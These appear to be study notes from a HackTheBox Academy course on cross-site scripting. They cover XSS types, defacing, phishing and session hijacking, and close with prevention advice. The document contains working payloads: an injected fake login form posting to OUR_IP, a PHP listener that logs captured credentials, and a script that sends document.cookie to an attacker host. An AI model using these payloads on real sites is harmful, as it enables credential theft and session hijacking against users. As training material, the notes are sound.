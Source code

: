 
## Persistent

Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of `window.origin` in the alert box, instead of a static value like `1`. In this case, the alert box would reveal the URL it is being executed on, and will confirm which form is the vulnerable one, in case an IFrame was being used

some browsers will filter alert() we can test in other ways:
- `<plaintext>` - not html will render after this tag
- `<script>print()</script>` - 

## Reflected

processed by the server and returns to frontend without being filtered or sanitized
if a get request is used for the payload we can send the script through the url to perform reflected attacks.

`http://94.237.56.76:43679/index.php?task=%3Cscript%3Ealert(document.cookie)%3C/script%3E`

## DOM

completely proccess on client side

works through a source and sink model

source is where the xss is entered, like a input field or url param
sink is the function the writes to the document:
- document.write()
- DOM.innerHTML
- DOM.outerHTML
- add()
- after()
- append()

if these functions do incorporate sanitization or filtering, then we know there is an xss vulnerability

innerHTML doesnt accept script tags

`<img src="" onerror=alert(window.origin)>` - payload example for dom xss

dom based xss can also be performed through the url parameters if it is using local linking through the \#param

## Discovery

Automated using nessus, burp pro or zap

open source tools:
- XSS strike
- Brute XSS
- XSSer

## Payloads for manual testing

XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## Defacing

`<script>document.body.style.background = "#141d2b"</script>`

`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`

`<script>document.title = 'HackTheBox Academy'</script>`

`document.getElementById("todo").innerHTML = "New Text"`

`$("#todo").html('New Text');`

`document.getElementsByTagName('body')[0].innerHTML = "New Text"`

`<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script`

## XSS Phishing

this can be done through stored and reflective methods through url params etc

`document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');` - injects a form through a found xss vulnerability

remove other elements from the page to convice people they need to log in to use the site
`document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();

add comment at the end to remove additional html if needed `<!--`

netcat listener is good enough but it wont function correctly for the end user (they will get unable to connect error) and they may get suspicious, so we use a php listener instead to get the page to function like a normal login form

php listener

mkdir /tmp/tmpserver
cd /tmp/tmpserver
create index.php
sudo php -S 0.0.0.0:80

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

## Session Hijacking

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

make use of script.js and host it in a webserver to enable script tags to pull your script remotely to easily execute code and steal cookies

new Image().src='http://OUR_IP/index.php?c='+document.cookie - serve this inside of script tags through script.js

<script src=http://ip/script.js></script>

payloads

<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>


## Prevention

sanitize and filtering on front end and backend

https://github.com/cure53/DOMPurify - library for escaping characters

 we should always ensure that we never use user input directly within certain HTML tags, like:

1. JavaScript code `<script></script>`
2. CSS Style Code `<style></style>`
3. Tag/Attribute Fields `<div name='INPUT'></div>`
4. HTML Comments `<!-- -->`

 we should avoid using JavaScript functions that allow changing raw text of HTML fields, like:

- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`

And the following jQuery functions:

- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`

sanitize in the backend with libraries and functions:

- addslashes()
- htlmentitites() or htmlspecialchars()- output html encoding

In addition to the above, there are certain back-end web server configurations that may help in preventing XSS attacks, such as:

- Using HTTPS across the entire domain.
- Using XSS prevention headers.
- Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
- Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts.
- Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.

In addition to the above, having a good `Web Application Firewall (WAF)` can significantly reduce the chances of XSS exploitation, as it will automatically detect any type of injection going through HTTP requests and will automatically reject such requests. Furthermore, some frameworks provide built-in XSS protection, like [ASP.NET](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-7.0).